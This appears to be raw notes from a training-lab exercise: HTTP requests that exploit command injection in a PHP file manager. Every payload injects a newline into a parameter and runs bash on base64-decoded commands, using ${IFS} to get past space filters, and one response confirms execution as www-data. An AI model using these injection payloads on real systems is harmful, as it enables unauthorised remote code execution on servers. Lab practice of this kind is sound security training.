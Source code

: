 GET /index.php?to=tmp&from=51459716.txt HTTP/1.1
Host: 94.237.62.195:42835
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://94.237.62.195:42835/index.php?to=&from=51459716.txt
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: filemanager=62nrkg2r8iobluh3n2d2105u6l
Connection: close


51459716.txt%0abash<<<$(base64${IFS}-d<<<d2hvYW1p)

GET /index.php?to=tmp HTTP/1.1
Host: 94.237.62.195:42835
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://94.237.62.195:42835/index.php?to=
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: filemanager=62nrkg2r8iobluh3n2d2105u6l
Connection: close

tmp%0abash<<<$(base64${IFS}-d<<<d2hvYW1p)

POST /index.php?to= HTTP/1.1
Host: 94.237.62.195:42835
Content-Length: 40
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://94.237.62.195:42835
Referer: http://94.237.62.195:42835/index.php?to=
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: filemanager=62nrkg2r8iobluh3n2d2105u6l
Connection: close

ajax=true&content=514%0abash<<<$(base64${IFS}-d<<<d2hvYW1p)&path=.&type=search

<td>www-data:www-data</td>

echo -n 'echo mbappe' | base64
ZWNobyBtYmFwcGU=

ajax=true&content=514%0abash<<<$(base64${IFS}-d<<<ZWNobyBtYmFwcGU=)&path=.&type=search

GET /index.php?to=&view=51459716.txt%0abash<<<$(base64${IFS}-d<<<ZWNobyBtYmFwcGU=)&quickView=1 HTTP/1.1
Host: 94.237.62.195:42835
Accept: text/html, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://94.237.62.195:42835/index.php?to=
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: filemanager=62nrkg2r8iobluh3n2d2105u6l
Connection: close
